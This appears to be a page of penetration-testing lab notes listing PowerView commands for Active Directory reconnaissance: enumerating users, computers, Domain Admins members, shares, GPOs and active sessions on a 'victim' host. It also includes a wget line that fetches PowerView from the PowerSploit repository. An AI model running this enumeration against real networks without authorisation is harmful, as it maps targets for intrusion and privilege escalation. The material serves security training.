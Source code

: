 Get user descriptions.
```powershell
Get-NetUser | select description
```

Get computers on network.
```powershell
Get-NetComputer
```

Get Operating Systems on network.
```powershell
Get-NetComputer | select OperatingSystem
```

Look for group names in domain.
```powershell
Get-NetGroup -GroupName "Domain Admins"
```

Search for admin-like group names in domain.
```powershell
Get-NetGroup -GroupName *admin*
```

Get members of groups.
```powershell
Get-NetGroupMember -GroupName "Domain Admins"
```

Find available shares on domain.
```powershell
Invoke-ShareFinder
```

Show domain Group Policy Objects, when they were last modified.
```powershell
Get-NetGPO | select displayname, whenchanged
```

```bash
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1
```



Next, we need to get the hostname of the victim:

```Powershell
hostname
```

Spiderman
```Powershell
Get-NetLoggedon -ComputerName Spiderman
```

```Powershell
Get-NetSession -ComputerName HYDRA-PC
```

Also works with IP address
```Powershell
Get-NetSession -ComputerName $TARGET
```

